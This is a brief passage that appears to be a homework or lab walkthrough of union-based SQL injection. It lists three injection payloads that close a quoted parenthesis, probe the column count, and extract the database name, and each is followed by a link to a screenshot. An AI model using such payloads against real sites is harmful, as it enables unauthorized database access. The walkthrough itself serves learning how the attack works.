 

```
") order by 2#
```

![image-20220115133523865](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115133523865.png)



```
") union select 1,2#
```

![image-20220115133615372](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115133615372.png)



```
") union select database(),2#
```

![image-20220115133709608](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115133709608.png)

